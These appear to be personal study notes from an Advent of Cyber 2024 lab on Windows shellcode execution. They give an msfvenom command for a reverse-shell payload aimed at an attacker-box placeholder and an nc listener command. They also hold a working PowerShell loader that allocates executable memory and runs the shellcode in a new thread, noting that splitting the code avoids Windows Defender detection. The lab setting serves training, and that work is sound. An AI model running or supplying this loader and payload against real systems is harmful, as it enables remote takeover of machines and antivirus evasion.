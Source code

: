 
2024-12-20 15:03

Source: #AOC24 
### Generating Shellcode

in Linux Terminal 
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```

- `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
The actual shellcode in the output above is the hex-encoded byte array

start a listener on port `1111`
```sh
nc -nvlp 1111
```
### Executing the shellcode

in windows PowerShell
```shell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   
```

- `VirtualAlloc`: This function allocates memory in the process's address space. It's commonly used in scenarios like this to prepare memory for storing and executing shellcode.
- `CreateThread`: This function creates a new thread in the process. The thread will execute the shellcode that has been loaded into memory.
- `WaitForSingleObject`: This function pauses execution until a specific thread finishes its task. In this case, it ensures that the shellcode has completed execution.

Then paste the line below, replacing the placeholder with the shellcode generated by [[msfvenom]], and press `Enter`.
```shell
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

 Remember, copy one line at a time, paste it, and press `Enter`.
```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

**Note**: If your PowerShell terminal unexpectedly closes, it means your `nc` listener was not reachable, possibly because it was not running or was listening on the wrong port or IP.

we split the whole code into 3 parts to prevent detection by windows defender

### References
Day 8